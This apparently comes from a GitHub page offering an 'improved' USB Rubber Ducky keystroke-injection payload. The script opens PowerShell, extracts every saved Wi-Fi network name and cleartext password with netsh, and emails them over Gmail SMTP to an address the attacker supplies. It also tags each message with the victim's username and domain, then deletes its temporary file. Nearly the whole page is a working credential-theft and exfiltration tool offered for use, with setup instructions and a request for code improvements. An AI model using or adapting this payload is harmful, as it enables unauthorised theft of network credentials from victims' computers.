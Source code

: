 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

### Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "PASSWORD" with your password

### Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "PASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $a=0;ForEach($b in ((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":")){if($a -eq "1") {(netsh wlan show profile $b.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$a++}else{$a=1}};$c=New-Object Net.Mail.SmtpClient("smtp.gmail.com",587);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","YOURPASSWORD");$d=New-Object System.Net.Mail.MailMessage;$d.From="YOUREMAIL@gmail.com";$d.To.Add("YOUREMAIL@gmail.com");$d.Subject=($env:UserName+"@"+$env:UserDomain);$d.Body=(Get-Content a|out-string);$c.Send($d);Remove-Item a;exit
```
### Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.